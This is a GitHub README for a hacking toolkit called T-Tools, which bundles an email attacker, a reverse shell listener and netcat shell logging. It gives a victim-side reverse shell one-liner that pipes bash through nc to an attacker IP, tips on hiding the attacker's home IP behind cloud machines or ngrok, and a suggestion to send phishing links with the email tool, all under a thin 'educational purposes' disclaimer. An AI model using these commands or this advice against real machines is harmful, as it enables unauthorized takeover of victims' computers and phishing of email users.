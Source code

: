 # T-Tools-advanced--cyber-security


# What is T-Tools

* T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells (only linux)
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command in version 1.0. 

* And you can use linode, aws or google cloud services to make your cloud machine.

* You can even use ngrok tcp to use reverse - X

# Vol 1.0 

      kali@attacker - $ nano reverse.py
      kali@attacker - $ < add your ip to the listen >
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <attacker ip> 9999 >/tmp/f  
    
    
 # Vol 1.1
 
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 ip> 9999 >/tmp/f
           
           
           
           
           
     
 
           
    
# e-mail Attacker     

* This tool needs gmail less secure app access.

* To use it for phishing you can make a phishing link and attach to it.

* Your passwords won't be saved.

To activate 

        kali@attacker - $ python3 email-attacker.py 
        



Made with 💖 by THb 
